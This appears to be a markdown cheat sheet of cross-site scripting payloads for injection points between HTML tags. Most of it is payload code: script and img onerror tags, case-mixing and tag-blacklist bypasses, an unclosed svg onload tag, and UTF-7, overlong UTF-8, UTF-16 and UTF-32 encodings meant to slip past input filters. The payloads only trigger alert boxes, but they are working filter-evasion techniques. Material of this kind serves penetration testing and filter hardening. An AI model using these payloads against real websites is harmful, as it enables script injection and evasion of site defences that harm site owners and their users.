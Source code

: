 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
#### Bypass ">" using nothing

```html
<svg onload=alert(1)//
```
#### Bypass using UTF-7
```html
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-  ===  <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```html
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```

#### Bypass using UTF-16
```html
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00  ===  <svg/onload=alert()>

utf-16 encoded then url encoded 
```

#### Bypass using UTF-32
```html
%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E  ===  <svg/onload=alert()>

utf-32 encoded then url encoded 

```
